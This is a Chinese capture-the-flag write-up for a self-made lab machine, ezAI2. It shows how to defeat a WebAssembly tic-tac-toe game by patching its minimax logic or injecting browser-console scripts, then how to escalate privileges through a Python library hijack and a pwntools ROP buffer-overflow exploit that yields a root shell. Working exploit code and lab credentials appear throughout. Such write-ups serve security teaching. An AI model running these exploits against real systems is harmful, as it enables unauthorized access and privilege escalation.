

# ezAI2

这是我给群里出的一个简单靶机（被非预期了，有点点遗憾，下次一定要好好检查

> 靶机百度网盘地址：通过网盘分享的文件：ezAI2.ova  
> 链接: https://pan.baidu.com/s/1wJw3Bw4sbzFxTAkGzAEqPw?pwd=ee8d 提取码: ee8d

## 信息搜集

```bash
❯ rustscan -a 192.168.1.18 --ulimit 5000 -- -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Open ports, closed hearts.

[~] The config file is expected to be at "/home/yolo/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.1.18:22
Open 192.168.1.18:8080
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sV" on ip 192.168.1.18
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-26 18:03 CST
NSE: Loaded 47 scripts for scanning.
Initiating Ping Scan at 18:03
Scanning 192.168.1.18 [2 ports]
Completed Ping Scan at 18:03, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:03
Completed Parallel DNS resolution of 1 host. at 18:03, 0.16s elapsed
DNS resolution of 1 IPs took 0.16s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 18:03
Scanning 192.168.1.18 [2 ports]
Discovered open port 8080/tcp on 192.168.1.18
Discovered open port 22/tcp on 192.168.1.18
Completed Connect Scan at 18:03, 0.00s elapsed (2 total ports)
Initiating Service scan at 18:03
Scanning 2 services on 192.168.1.18
Completed Service scan at 18:03, 6.06s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.1.18.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 18:03
Completed NSE at 18:03, 0.01s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 18:03
Completed NSE at 18:03, 0.00s elapsed
Nmap scan report for 192.168.1.18
Host is up, received conn-refused (0.00061s latency).
Scanned at 2026-02-26 18:03:14 CST for 6s

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
8080/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.37 seconds
```

发现两个端口，关注 8080，是一个井字棋游戏

## Tac Tic Toe

由于是选手先手，聪明的 ai 后手，几乎是赢不了的，这时候审计代码，发现整个游戏是利用 go 编译的 wasm 运行的，那个 wasm_exec.js 允许 Go 编译的 Wasm 模块在浏览器或 JavaScript 环境中运行，本题的漏洞在于，wasm 是本地执行（就是在浏览器运行的，不经过服务端，那么我们可以想办法在 wasm 文件内部打个恶意补丁，让 ai 变笨笨的，就能获胜

```javascript
//这是那个wasm本地执行的相关初始化代码，可以了解看看
async function init() {
            const result = await WebAssembly.instantiateStreaming(fetch("main.wasm"), go.importObject);
            go.run(result.instance);
            
            const resp = await fetch("/init");
            const data = await resp.json();
            sessionID = data.session_id;
            document.getElementById('sid').innerText = sessionID;
            
            // Initialize Wasm state
            initGame(sessionID, data.seed);
            
            // Ensure player turn is enabled
            isPlayerTurn = true;
            document.getElementById('status').innerText = "YOUR TURN (X)";
        }
```

这里有两个方法获胜

### 方法一

将 wasm 反编译出来，并且打上恶意补丁：

```bash
❯ wasm2wat main.wasm -o main.wat
```

针对 go 编译的二进制逆向分析，我优先建议全局查找这个`(func $main.`​真正有用的函数都会有`main.`这样的前缀

可以看到，共有以下七个关键函数（前面是行数，大家如果都用最新的 wasm2wat，反编译出来的信息应该是一样的

```plaintext
776821 (func $main.main (type 0) (param i32) (result i32)
777515 (func $main.initGame (type 0) (param i32) (result i32)
778097 (func $main.updateProof (type 0) (param i32) (result i32)
778902 (func $main.getCurrentProof (type 0) (param i32) (result i32)
779325 (func $main.getAIMove (type 0) (param i32) (result i32)
779786 (func $main.minimax (type 0) (param i32) (result i32)
780429 (func $main.checkWinner (type 0) (param i32) (result i32)
```

已经很好看了，之前碰到相关的，连函数名都混淆了，可以留意下那个 minimax，在机器学习中，这个 minimax 算法是经常能见到的策略算法：通过选择最优策略以最小化最大潜在损失的决策算法

举个小例子，下面是让 ai 生成的一份伪代码

```c
function minimax(board, depth, isMaximizing):
    # 1. 检查胜负状态
    winner = checkWinner(board)
    
    # 如果有人赢了或平局，返回评分
    # AI 赢（玩家2）: +10 - 步数
    # 人类赢（玩家1）: 步数 - 10
    if winner == AI:
        return 10 - depth
    if winner == HUMAN:
        return depth - 10
    if board_is_full():
        return 0

    # 2. 递归搜索
    if isMaximizing:  # AI 的回合 (尝试最大化分数)
        bestScore = -10000
        for each cell in board:
            if cell is empty:
                cell = AI              # 模拟落子
                score = minimax(board, depth + 1, False)
                cell = empty           # 撤销落子
                bestScore = max(score, bestScore)
        return bestScore

    else:  # 人类的回合 (尝试最小化分数)
        bestScore = 10000
        for each cell in board:
            if cell is empty:
                cell = HUMAN           # 模拟落子
                score = minimax(board, depth + 1, True)
                cell = empty           # 撤销落子
                bestScore = min(score, bestScore)
        return bestScore
```

简述下 minimax 策略：

- 在 minimax 算法中，AI 要最大化自己的得分
- AI 的初始分数设为-10000，可以确保第一个合法走法一定会更新这个值
- AI 试图找到让分值最高的移动，而它假设选手会采取让选手自己最有利（对 AI 最不利）的移动

这里我们只需要想办法让 ai 变笨即可

AI 的初始分在 780023 行定义：`i64.const -10000`

AI 的相关策略，比如说下一步的分数如果比其它步的分数更高，会选择那一步的相关判断在 780067 行定义：`i64.lt_s`

让 ai 变笨的方法很简单，第一，如果我们将初始分数改为 10000，第二，我们再让下一步选择分数最小的那个步骤，这样做可以让 ai 从最优策略改变成最差策略，对应的汇编代码调整分别是`i64.const 10000`​，`i64.gt_s`,切记，一定要在我上面标注的行数上进行编辑，请参考下图我打的断点对应的部分


接下来利用`wat2wasm ./main.wat -o main_patched.wasm` 将 wat 文件编译成 wasm


可以在 Dev->源代码中启用本地替换，接下来刷新下，随意走三步即可，可以拿到一组有效用户凭据`ttt:1q2w3e4r@Dashazi`

### 方法二

这其实也算是个逆向题，我们可以动态调试，将 wasm 的下过的棋子通过内存覆盖进行修改（可以说的再直白点，我们不让 ai 下棋，我们帮它下，这样做的话可以不走 wasm 的那个 minimax 策略

> 成功原因：WebAssembly 和 JavaScript 之间共享内存

关于我上面说的那个我们帮 ai 下棋也很好绕过，我们可以不断通过 updateProof 获取正确的 proof，反正 wasm 内部也不会在意，到底是自己的 minimax 选的步数，还是被选手恶意利用，只要 proof 能算的过去就可以了


这是一份 exp.js，直接在控制台运行即可

```javascript
(async () => {
    await new Promise(r => setTimeout(r, 1000));
    const wasmInstance = go._inst;
    if (!wasmInstance) {
        console.error("[!] Wasm instance not found. Make sure the game is loaded.");
        return;
    }

    const mem = new Uint8Array(wasmInstance.exports.mem.buffer);
    console.log("[*] Memory size:", mem.length);
    
    board = [0, 0, 0, 0, 0, 0, 0, 0, 0];
    moves = [];
    gameOver = false;
    isPlayerTurn = true;
    const winningMoves = [
        { pos: 0, player: 1 },
        { pos: 1, player: 2 }, 
        { pos: 4, player: 1 },
        { pos: 3, player: 2 },
        { pos: 6, player: 1 },
        { pos: 5, player: 2 },
        { pos: 2, player: 1 }
    ];
    for (let i = 0; i < winningMoves.length; i++) {
        const move = winningMoves[i];
        board[move.pos] = move.player;
        moves.push(move.pos);
        updateProof(move.pos, i);
        
        console.log(`[*] Move ${i + 1}: Player ${move.player} at position ${move.pos}`);
    }
    updateUI();
    
    console.log("[*] Final board state:", board);
    console.log("[*] Moves sequence:", moves);

    if (checkWin(1)) {
        console.log("[+] Win condition detected!");
        console.log("[*] Triggering win handler...");
        
        await handleWin();
    } else {
        console.error("[!] Win condition not met. Something went wrong.");
    }
})();
```

这是流程图，供大家理解



控制台运行结束后的样子，棋谱是我自定义的，这个可以看选手心情


### 方法三、四、五

本题还有很多方法 solve，比如说，我们可以通过彻底反编译 wasm，获取 proof 算法，这样的话，我们可以直接强行算一份正确的棋谱以及对应的证明值，不过显然，这个方法要很难很难;或者说完整的反编译后，强行获取到对应的 flag 获取机制进行后台模拟;还有，如果说 wasm 不会校验 proof 来自 ai 还是选手，我们可以直接将 ai 的 proof 提交上去过验证也可以(这个方法好像是被我 ban 了，但是下面博客链接里面说的那个题目，我用这个方法是成功了的)……

方法一只需要大致浏览汇编代码，了解 ai 的优化策略即可

方法二需要熟练了解 wasm 与一些 js 文件的接口交互

针对这两个方法，可以参考我的博客文章，是我前段时间碰到的一个有意思的题目：[https://yo1o.top/post/pragyan-ctf/#tac-tic-toe](https://yo1o.top/post/pragyan-ctf/#tac-tic-toe)

---

### 最好的方法（来自夜神

审计 JS，看到前端 AI 移动是调用后台的 getAIMove 函数，我们直接控制台劫持，创建一个固定移动函数即可，每次前台都会调用一次伪造的 getAIMove

```javascript
//参考js代码，来自夜神
getAIMove = function(b) {
    for (let i = 8; i >= 0; i--) {
        if (b[i] === 0) return i;
    }
    return 0;
};
```

使用效果

 

> 被非预期了，我 web 还是没掌握好，下次一定要出个难点的

### get yolo shell

通过 Tac Tic Toe 游戏，我们拿到 ttt 用户的登录凭据`ttt:1q2w3e4r@Dashazi`

```bash
ttt@ezAI2:~$ cat user.txt
flag{7f0a4a443fbb44179219......}
```

直接获取 user flag

查看 sudo 权限，发现这里可以无密码去执行 yolo 用户的一份 py 文件

```bash
ttt@ezAI2:~$ sudo -l
Matching Defaults entries for ttt on ezAI2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ttt may run the following commands on ezAI2:
    (yolo) NOPASSWD: /usr/bin/python3 /opt/greeting.py
```

关于 py 文件的提权，常见的无非就是覆盖文件，或者是进行 python 库劫持

前者自然是文件可编辑，后者就是要求对应 py 文件路径下可以创建文件

```bash
ttt@ezAI2:/opt$ ls -la
total 16
drwxrwxrwt  3 root     root     4096 Feb 26 02:08 .
drwxr-xr-x 18 root     root     4096 Mar 18  2025 ..
drwxr-xr-x  3 www-data www-data 4096 Feb 26 01:13 challenge
-rw-r--r--  1 yolo     yolo     2837 Feb 26 01:57 greeting.py
ttt@ezAI2:/opt$ cat greeting.py
import datetime
import random

def get_current_time():
    now = datetime.datetime.now()
    
    time_formats = {
        'standard': now.strftime("%Y-%m-%d %H:%M:%S"),
        'chinese': now.strftime("%Y年%m月%d日 %H时%M分%S秒"),
        'simple': now.strftime("%H:%M:%S"),
        'date_only': now.strftime("%Y/%m/%d"),
        'weekday': now.strftime("%A"),
    }
    
    weekdays_cn = {
        'Monday': '星期一',
        'Tuesday': '星期二', 
        'Wednesday': '星期三',
        'Thursday': '星期四',
        'Friday': '星期五',
        'Saturday': '星期六',
        'Sunday': '星期日'
    }
    
    time_formats['weekday_cn'] = weekdays_cn[time_formats['weekday']]
    
    return time_formats

def get_random_welcome():
    welcomes = [
        "🌟 欢迎来到这个奇妙的Python世界！",
        "🌈 祝您今天心情愉快，代码无Bug！",
        "☕ 来，喝杯咖啡，享受编程的乐趣！",
        "🚀 准备起飞，让我们开始编程吧！",
        "🎉 哇！又见到您啦，真高兴！",
        "💡 今天的您一定会有新的灵感！",
        "✨ 愿代码与您同在，愿Bug远离您！",
        "🌞 美好的一天从运行Python开始！",
        "🎯 保持专注，实现目标！",
        "🤖 我是您忠实的Python助手！"
    ]
    return random.choice(welcomes)

def get_time_greeting(hour):
    if 5 <= hour < 12:
        return "早上好"
    elif 12 <= hour < 14:
        return "中午好"
    elif 14 <= hour < 18:
        return "下午好" 
    elif 18 <= hour < 22:
        return "晚上好"
    else:
        return "夜深了，注意休息"

def main():
    print("=" * 50)
    time_info = get_current_time()
    current_hour = datetime.datetime.now().hour
    print(f"{' 时间显示程序 ':*^50}")
    print("=" * 50)
    print(f"📅 标准时间：{time_info['standard']}")
    print(f"📆 中文时间：{time_info['chinese']}")
    print(f"⏰ 简单时间：{time_info['simple']}")
    print(f"📌 当前日期：{time_info['date_only']}")
    print(f"🗓️  今天是：{time_info['weekday_cn']}")
    
    print("-" * 50)
    greeting = get_time_greeting(current_hour)
    print(f"👋 {greeting}！")
    print(f"{get_random_welcome()}")
    
    print("-" * 50)
    print("💝 今日小贴士：")
    
    tips = [
        "多喝水，保持健康！",
        "记得定时站起来活动一下",
        "代码写累了就看看远方",
        "保持好奇心，持续学习",
        "分享知识会让快乐加倍"
    ]
    print(f"   {random.choice(tips)}")
    
    print("=" * 50)
    print(r"""
          /)/)
         (o.o)
          >^<
    """)

if __name__ == "__main__":
    main()ttt@ezAI2:/opt$ 
ttt@ezAI2:/opt$ sudo -u yolo /usr/bin/python3 /opt/greeting.py
==================================================
********************* 时间显示程序 *********************
==================================================
📅 标准时间：2026-02-26 11:33:16
📆 中文时间：2026年02月26日 11时33分16秒
⏰ 简单时间：11:33:16
📌 当前日期：2026/02/26
🗓️  今天是：星期四
--------------------------------------------------
👋 早上好！
🌞 美好的一天从运行Python开始！
--------------------------------------------------
💝 今日小贴士：
   多喝水，保持健康！
==================================================

          /)/)
         (o.o)
          >^<
    
```

很显然，这里是 python 库劫持，因为这里的/opt 下，任意用户都可以写，至于那个 py 文件，完全属于 yolo，ttt 只能看不能写

关于 python 库劫持，可以看看 ai 的回答


观察到这里的`greeting.py`​第一步是`import datetime`​，那么我们直接创建`datetime.py`写入我们自己的恶意代码

```bash
ttt@ezAI2:/opt$ nano datetime.py
ttt@ezAI2:/opt$ cat datetime.py
import os
os.system('/bin/sh')
ttt@ezAI2:/opt$ sudo -u yolo /usr/bin/python3 /opt/greeting.py
$ id
uid=1001(yolo) gid=1001(yolo) groups=1001(yolo)
$ 
```

‍

## to root

> 这里的提权，我参考了 thl 的[york 靶机](https://labs.thehackerslabs.com/machines/168)，那是一台完全的 pwn 靶机，正好，大家平时见了很多 sudo 或 suid 提权，这个 pwn 提权还算蛮新的

在 yolo 家目录下，能看到一个 elf 文件,而且它属于 root 用户组

```bash
ttt@ezAI2:/opt$ sudo -u yolo /usr/bin/python3 /opt/greeting.py
$ bash
yolo@ezAI2:/opt$ id
uid=1001(yolo) gid=1001(yolo) groups=1001(yolo)
yolo@ezAI2:/opt$ cd
yolo@ezAI2:~$ ls -la
total 40
drwxr-xr-x 2 yolo yolo  4096 Feb 26 02:41 .
drwxr-xr-x 4 root root  4096 Feb 26 01:39 ..
-rw-r--r-- 1 yolo yolo   220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 yolo yolo  3593 Feb 26 02:40 .bashrc
-rw-r--r-- 1 yolo yolo   807 Apr 18  2019 .profile
-rwxr-x--- 1 root yolo 17584 Feb 26 02:19 waityou
yolo@ezAI2:~$ file waityou
waityou: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1c2594cd6ab581fe9845ca56e3aa383739113557, for GNU/Linux 3.2.0, not stripped
yolo@ezAI2:~$ ./waityou
bind: Address already in use
yolo@ezAI2:~$ ss -tuln
Netid      State       Recv-Q      Send-Q           Local Address:Port            Peer Address:Port      
udp        UNCONN      0           0                      0.0.0.0:68                   0.0.0.0:*         
tcp        LISTEN      0           20                   127.0.0.1:9999                 0.0.0.0:*         
tcp        LISTEN      0           128                    0.0.0.0:22                   0.0.0.0:*         
tcp        LISTEN      0           128                          *:8080                       *:*         
tcp        LISTEN      0           128                       [::]:22                      [::]:*  
yolo@ezAI2:~$ ps aux | grep waityou
root         337  0.0  0.0   2228   556 ?        Ss   10:02   0:00 /home/yolo/waityou
yolo         966  0.0  0.0   6176   640 pts/0    S+   12:36   0:00 grep waityou
```

当我们想执行 elf 文件的时候，发现报错，端口被占用，查看了下运行端口，那个本地监听的 9999 很稀奇，可以尝试连接下（查看进程也能判断，它早就被 root 用户执行了

可惜，本地没有 nc，这里有多种方式解决

- 用 ssh 隧道连接

先保存本地的 ssh 密钥到那个 yolo 用户下的.ssh 中，重新连接，一定要走 ssh 隧道`ssh -L 8888:127.0.0.1:9999 yolo@192.168.1.18`

```bash
❯ ssh -L 8888:127.0.0.1:9999 yolo@192.168.1.18 -i ezai
Linux ezAI2 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Feb 26 11:54:08 2026 from 192.168.1.9
yolo@ezAI2:~$
# 重开终端
❯ nc 127.0.0.1 8888
>>> Initializing romantic link...
>>> [LOG] 「私、幸せになる勇気がなかったの。」
>>> Enter Access Code: aaaaaa


Ncat: Broken pipe.
```

看得出来，这里会等待输入内容，具体的还需要进行逆向分析，已经可以猜测到了，这里也许考察 pwn 的栈溢出，甚至是 ROP 链覆盖

- 使用类似 chisel 的工具进行端口转发

```bash
# 靶机
yolo@ezAI2:~$ ./chisel server -p 8000
2026/02/26 12:19:29 server: Fingerprint eiUOND5HyJVM/uxS5I/ceKLcAT+UeMCDBtVFVGa2srg=
2026/02/26 12:19:29 server: Listening on http://0.0.0.0:8000

# 本地wsl
❯ ./chisel client 192.168.1.18:8000 8887:127.0.0.1:9999
2026/02/27 01:20:34 client: Connecting to ws://192.168.1.18:8000
2026/02/27 01:20:34 client: tun: proxy#8887=>9999: Listening
2026/02/27 01:20:34 client: Connected (Latency 691.265µs)

# 本地wsl新开终端
❯ nc 127.0.0.1 8887
>>> Initializing romantic link...
>>> [LOG] 「私、幸せになる勇気がなかったの。」
>>> Enter Access Code:
```

方法和工具很多，不再多说，接下来进行逆向分析

main 函数属于一个网络端程序，主要做以下几件事：

- 创建 socket 监听本地 9999 端口
- 接受客户端连接
- 每个连接都会创建子进程处理

经常玩 pwn 的应该会对函数中的 system 调用系统函数敏感一些


向下审计，查看 vuln 函数（漏洞的英文哇...

```c
ssize_t __fastcall vuln(int a1)
{
  int v1; // eax
  _QWORD v3[6]; // [rsp+10h] [rbp-70h]
  _BYTE buf[64]; // [rsp+40h] [rbp-40h] BYREF

  dup2(a1, 0);
  dup2(a1, 1);
  dup2(a1, 2);
  v3[0] = &unk_402008;
  v3[1] = &unk_402040;
  v3[2] = &unk_4020A0;
  v3[3] = &unk_402100;
  v3[4] = &unk_402140;
  puts(">>> Initializing romantic link...");
  v1 = rand();
  printf(">>> %s", (const char *)v3[v1 % 5]);
  printf(">>> Enter Access Code: ");
  fflush(stdout);
  return read(0, buf, 256u);
}
```

这里的 buf 缓冲区只有 64 字节大小，但是最后会一次性 read 256 字节，远远超过 buf 大小，很显然的一种栈溢出或其它漏洞

```bash
❯ checksec waityou
[*] '/home/yolo/timus/waityou'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

可以先按照栈溢出进行操作，但是发现很关键的问题，整个二进制貌似查找不到后门程序(因为我没写

接下来查看字符串的时候，可以看到这里`.data:00000000004040E3	0000001E	C	may be she is wait for you!!!`


继续追进，可以看到数据块

```assamble
.data:00000000004040E0                 public hints
.data:00000000004040E0 hints           db  73h ; s
.data:00000000004040E1                 db  68h ; h
.data:00000000004040E2                 db    0
.data:00000000004040E3                 db  6Dh ; m
.data:00000000004040E4                 db  61h ; a
.data:00000000004040E5                 db  79h ; y
.data:00000000004040E6                 db  20h
.data:00000000004040E7                 db  62h ; b
.data:00000000004040E8                 db  65h ; e
.data:00000000004040E9                 db  20h
.data:00000000004040EA                 db  73h ; s
.data:00000000004040EB                 db  68h ; h
.data:00000000004040EC                 db  65h ; e
.data:00000000004040ED                 db  20h
.data:00000000004040EE                 db  69h ; i
.data:00000000004040EF                 db  73h ; s
.data:00000000004040F0                 db  20h
.data:00000000004040F1                 db  77h ; w
.data:00000000004040F2                 db  61h ; a
.data:00000000004040F3                 db  69h ; i
.data:00000000004040F4                 db  74h ; t
.data:00000000004040F5                 db  20h
.data:00000000004040F6                 db  66h ; f
.data:00000000004040F7                 db  6Fh ; o
.data:00000000004040F8                 db  72h ; r
.data:00000000004040F9                 db  20h
.data:00000000004040FA                 db  79h ; y
.data:00000000004040FB                 db  6Fh ; o
.data:00000000004040FC                 db  75h ; u
.data:00000000004040FD                 db  21h ; !
.data:00000000004040FE                 db  21h ; !
.data:00000000004040FF                 db  21h ; !
.data:0000000000404100                 db    0
.data:0000000000404101                 db    0
```

我直接写出来我定义的 hints 变量`char hints[] = "sh\0may be she is wait for you!!!";`

对于 c 语言的读取函数来说，它们一般会在遇到的第一个`\0`（空字符）时停止读取，所以说这里的 hints 我们完全可以利用，设计一个 ROP 链进行攻击，对了，关于 ROP 链，这是相关介绍


通过上面的 hint，我们已经拿到其中一个关键信息：`sh_addr=0x4040E0`

接下来查找一个干净点的寄存器，需要寄存那个 hints 的地址给 system，差不多长这样 system(hints)

```bash
❯ ROPgadget --binary waityou | grep "pop rdi ; ret"
0x000000000040123e : add bl, bpl ; mov ss, word ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; ret
0x000000000040123f : add bl, ch ; mov ss, word ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; ret
0x0000000000401244 : mov ebp, esp ; pop rdi ; ret
0x0000000000401243 : mov rbp, rsp ; pop rdi ; ret
0x0000000000401241 : mov ss, word ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; ret
0x0000000000401246 : pop rdi ; ret
0x0000000000401242 : push rbp ; mov rbp, rsp ; pop rdi ; ret
```

就选择`0x0000000000401246 : pop rdi ; ret`这一条了

简述下原理，当我们通过溢出将返回地址覆盖成`0x401246`时，程序执行流程如下：

- ​`pop rdi`​:CPU会从当前栈顶弹出一个数值，并把它存入 RDI 寄存器，如果我们在栈上紧跟着地址`0x401246`后面，摆放好 hints 的地址，这样的话 pop 会帮我们将 hints 地址压进 RDI 中
- ​`ret`​:CPU执行完 pop 后，会继续执行 ret，它的逻辑就是从栈顶再弹出一个地址，并跳过去，如果我们在后面写上 system 的地址，它就会将`hints`充当参数提供给 system 执行，就能拿到我们想要的 sh 了

ok，第二条关键数据`pop_rdi_ret=0x401246`

```bash
❯ objdump -d waityou | grep "system@plt"
0000000000401050 <system@plt>:
  40142d:       e8 1e fc ff ff          call   401050 <system@plt>
```

这就是那个 system 函数，地址是`0x401050`

接下来我们需要找一个合适的 ret，因为在高系统中，CPU 要求栈顶地址必须是 16 字节对齐的，如果我们构造的 payload 到最后一步 system 的时候，让栈指针 RSP 停在一个不能被 16 整除的地方，会触发段错误，这个时候我们只要提前将返回地址先放到 ret 上，就能确保后面的操作都是对齐的

```bash
❯ ROPgadget --binary waityou | grep " : ret$"
0x0000000000401016 : ret
```

拿到第四块关键数据`ret=0x401016`

缺少最后一个关键信息，就是这里的输入 padding 长度具体是多少？

在 64 位程序中，栈帧的结构通常是：

​`[ 局部变量 ]`​ -\> `[ 保存的 RBP ]`​ -\> `[ 返回地址 (RIP) ]`

回顾上面的 vuln 函数：`_BYTE buf[64]; // [rsp+40h] [rbp-40h] BYREF`​，我们需要利用的 buf 位于`[rbp-40h]`，这意味着：

- 从 buf 的起始地址到 rbp 的距离是 0x40 字节(64 字节)
- rbp 本身占用 8 字节
- padding 总长度是`64+8=72`字节

完成一个 padding，紧跟其后的就是下一个返回地址，我们这里先返回到 ret 地址，保证栈对齐，接着返回到 pop 地址，确保能保存下面的 sh 命令地址，保存完 sh 命令地址后，又出现一个 ret 确保栈对齐(这个 ret 就来自`0x0000000000401246 : pop rdi ; ret`，然后返回到 system 函数进行调用，嗯，这就是整个 ROP 链

脚本如下：

```bash
from pwn import *

HOST = "127.0.0.1"
PORT = 8888

context.arch    = "amd64"
context.os      = "linux"
context.log_level = "info"

POP_RDI_RET = 0x401246
SYSTEM_PLT  = 0x401050
HINTS_ADDR  = 0x4040e0
RET_GADGET  = 0x401016

OFFSET = 72
def build_payload() -> bytes:
    padding  = b"A" * OFFSET
    rop_chain = flat(
        RET_GADGET,
        POP_RDI_RET,
        HINTS_ADDR,
        SYSTEM_PLT,
    )
    return padding + rop_chain

def pwn():
    payload = build_payload()

    log.info(f"Connecting to {HOST}:{PORT} ...")
    io = remote(HOST, PORT)
    io.recvuntil(b"Enter Access Code: ")
    log.info(f"Sending payload ({len(payload)} bytes) ...")
    io.send(payload)

    log.success("Successfully!!!")
    io.interactive()

if __name__ == "__main__":
    pwn()
```

这里使用 8888 端口是因为我利用的前面 ssh 隧道，如果仔细观察靶机内部的话，会有惊喜的，我直接将 pwntools 的 python 库安装上去了

```bash
❯ python exp.py
[*] Connecting to 127.0.0.1:8888 ...
[+] Opening connection to 127.0.0.1 on port 8888: Done
[*] Sending payload (104 bytes) ...
[+] Successfully!!!
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /root/root.txt
flag{4c00347e1f124840bc0a0.......}
```